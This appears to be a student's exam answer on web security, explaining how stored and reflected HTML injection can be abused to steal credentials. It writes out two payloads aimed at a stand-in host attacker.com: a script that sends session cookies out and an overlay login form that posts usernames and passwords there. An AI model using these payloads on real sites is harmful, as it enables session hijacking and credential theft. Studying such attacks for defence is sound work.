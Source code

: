 ## Describe how an HTML-attack could be abused to gain access to credentials. (25)

A HTML attack can be realized on different ways. And always consists of different type (stored HTML Injection or Reflected HTML injection) and attack vecors. 
Vecots:

- Stored HTML Injection: Persistant attacks like entries in a Comment Section or in a blog.
- Reflected HTML injectio: URL-Injection when Parameters are not escaped the right way
  - these URLs can be sent via E-Mail or other communication tools
  - spread via forums and other (social) platforms 

Ways to steal credentials:

- Inject JS-Code and Replace original Login Form
  - Inject new Form fields
    - Hide original Form Field
    - Place your own Imput-Elements on site and replace the action path with somethin useful to you
- Inject JS-Code to exfiltrate original
  - before committing the Login Form intercept the login Progress and send the data to your own server.
- Skip the login-part and steal the Session-Cookie right away:
  - Use someting like `<script>var img=new Image();img.src='http://attacker.com/stealcookie.php?cookie='+document.cookie;</script>`
- Inject HTML and CSS code without JS
  - Hide original form fields via CSS (inline or siyle attribute)
    - add your own Input-Elements right via html
    - or just add a huge Login-Banner over the page: `<div style="position:absolute;top:0;left:0;width:100%;height:100%;z-index:1000;"><form action='http://attacker.com/capture_credentials.php' method='post'><input type='text' name='username'><input type='password' name='password'><input type='submit' value='Login'></form></div>`

## Explain how PHP-code-injections via include / require could be achieved - and prevented. (25)

Discuss how PRNGs could put session-management at risk. (25)
How would secure programming create session IDs? (25)